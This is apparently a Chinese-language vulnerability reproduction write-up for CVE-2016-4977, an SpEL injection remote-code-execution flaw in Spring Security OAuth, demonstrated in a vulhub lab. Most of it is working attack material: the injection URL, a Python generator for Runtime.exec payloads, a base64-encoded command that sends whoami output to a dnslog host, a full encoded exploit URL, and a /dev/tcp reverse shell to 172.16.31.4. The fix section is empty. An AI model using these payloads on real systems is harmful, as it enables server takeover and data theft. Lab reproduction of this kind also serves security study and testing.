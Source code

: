 # Spring Security OAuth2 远程命令执行漏洞（CVE-2016-4977）

### 1.1、漏洞描述

### 1.2、漏洞原理

是该版本的Spring的一个错误页面，存在参数获取未进行过滤，导致可以直接对[服务器](https://so.csdn.net/so/search?q=服务器&spm=1001.2101.3001.7020)执行系统权限

### 1.3、漏洞等级

高

### 1.4、影响版本

Spring Security OAuth 1.0.0到1.0.5
Spring Security OAuth 2.0.0到2.0.9
Spring Security OAuth 2.0到2.0.14
Spring Security OAuth 2.1到2.1.1
Spring Security OAuth 2.2到2.2.1
Spring Security OAuth 2.3到2.3.2

### 1.5、漏洞复现

#### 1、基础环境

Path：vulhub/spring/CVE-2016-4977

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到

![image-20240414152451052](./imgs/image-20240414152451052.png)

#### 2、漏洞扫描



#### 3、漏洞验证

##### 简单验证

SpEL表达式注入

`/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`

输入admin/admin

![image-20240414152635555](./imgs/image-20240414152635555.png)

可以看到233*233被执行

触发点在：**${233\*233}**

[原理参考](https://www.cnblogs.com/litlife/p/10380701.html)

![image-20240414152705656](./imgs/image-20240414152705656.png)

##### dnsLog验证

![image-20240414153502130](./imgs/image-20240414153502130.png)

```bash
curl `whoami`.c941tf.dnslog.cn
```

然后进行base64编码

![image-20240414154946440](./imgs/image-20240414154946440.png)

```bash
bash -c {echo,Y3VybCBgd2hvYW1pYC5jOTQxdGYuZG5zbG9nLmNu} |{base64,-d}|{bash,-i}
```

然后使用如下poc

```python
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)  
```

![image-20240414155128000](./imgs/image-20240414155128000.png)

替换上面的 223*223

```
http://172.16.31.3:8080/oauth/authorize?response_type=${${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(66)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(87)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(53)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(53)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(57)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}}&client_id=acme&scope=openid&redirect_uri=http://test
```

![image-20240414155311029](./imgs/image-20240414155311029.png)

 

### 1.6、深度利用

#### 1、反弹Shell

```
bash -i >& /dev/tcp/172.16.31.4/4567 0>&1
```

进行编码

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMzEuNC80NTY3IDA+JjE=} |{base64,-d}|{bash,-i}
```



### 1.7、修复建议